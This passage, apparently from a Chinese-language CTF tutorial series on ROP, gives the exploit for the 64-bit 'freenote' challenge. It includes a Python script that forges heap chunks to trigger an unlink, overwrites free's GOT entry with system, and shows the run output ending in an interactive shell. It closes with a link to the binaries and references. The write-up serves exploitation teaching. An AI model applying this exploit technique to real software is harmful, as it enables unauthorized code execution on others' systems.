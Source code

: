 ```
fd = leakheapaddr - 0x1808 #notetable
bk = fd + 0x8   

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)  

new_note(payload)   

delete_note(1)  

free_got = 0x602018 

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2))  

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))   

delete_note(1)  

p.interactive()

```

执行exp的结果如下：

```
$ python exp9.py 
[+] Started program './freenote_x64'
b8a75eb2b57f
0x7fb5b25ea7b8
system_sh_addr: 0x7fb5b2278310
binsh_addr: 0x7fb5b23abfc7
20684b02
0x24b6820
[*] Switching to interactive mode
$ whoami
mzheng

```

0x04 总结
=====

除了64位的freenote，blue-lotus还弄了一个32位版的freenote给大家练习。这些binary和exp都可以在我的github上下载到：

[https://github.com/zhengmin1989/ROP_STEP_BY_STEP](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)

另外，下篇我会带来arm上rop的利用，敬请期待。

0x05 参考资料
=====

1.  [http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html](http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html)
2.  掘金ctf